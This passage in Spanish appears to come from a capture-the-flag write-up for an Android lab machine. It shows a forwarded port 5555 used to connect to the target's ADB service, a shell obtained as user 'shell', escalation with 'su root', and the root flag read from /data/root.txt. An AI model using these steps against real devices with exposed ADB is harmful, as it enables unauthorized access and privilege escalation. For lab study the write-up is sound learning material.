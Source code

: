 Una vez realizado, las conexiones que se realicen al puerto 5555 de mi máquina, se estarán reenviando y tratando en el servicio de la víctima. Por tanto, procedo a utilizar la herramienta `adb` para conectarme al servicio y obtener una shell.

```
# adb connect localhost:5555
connected to localhost:5555

# adb devices
List of devices attached
emulator-5554   device
localhost:5555  deviceinfo

# adb -s localhost:5555 shell
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
```

Tras acceder de nuevo al dispositivo mediante ADB, compruebo que soy el usuario "shell". Es muy posible que el servicio ADB esté ejecutandose con privilegios, por lo que pruebo a realizar un cambio de usuario a root (`su root`) y veo que, efectivamente, me convierto en el usuario root. Con esto, busco la flag final en el sistema y la visualizo.

```
x86_64:/ $ su root
:/ # find / -name "root.txt" 2>/dev/null
/data/root.txt
1|:/ # cat /data/root.txt
f04fc82b6d49b41c9b08982be59338c5
```
